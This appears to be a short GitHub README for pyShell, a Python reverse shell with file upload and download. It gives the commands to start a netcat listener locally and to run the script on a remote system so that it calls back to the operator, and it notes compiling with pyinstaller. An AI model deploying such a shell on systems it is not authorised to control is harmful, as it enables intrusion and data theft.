 # pyShell

pyShell is a reverse shell with upload/download functionality. Deploy and execute pyShell.py on the remote system and catch with netcat.

Usage: on your local system run       nc -lvp <port number>
       on the remote system run       python3 pyshell.py -t <target ip> -p <port number>
  
Requirements: Remote system must have python3 installed, or pyshell.py must be compiled with pyinstaller.

Recommendation: Install rlwrap and prefix local receiver command with rlwrap for improved tab completion
                rlwrap nc -lvp <port number>

